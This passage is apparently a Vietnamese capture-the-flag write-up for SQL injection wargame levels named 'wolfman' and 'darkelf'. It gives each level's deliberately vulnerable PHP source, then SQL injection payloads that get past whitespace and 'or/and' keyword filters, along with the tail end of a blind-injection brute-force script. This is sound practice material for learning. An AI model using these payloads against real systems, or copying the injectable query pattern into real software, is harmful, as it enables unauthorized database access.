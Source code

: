 ```python
        if ('Hello admin' in r.text):
            password = password + j
            print(password)
            break
#095a9852#
```

## WOLFMAN

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

Câu này filter whitespace vì vậy ta bypass bằng `/**/, %0a, %09, %0d, (), +`

`payload = 1%27%0dor%0did=%27admin%27--%0d-`

## DARKELF

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

#### filter: or and \_ . ()

\=> Thay or = ||

`payload = '1|| id = 'admin' -- -`

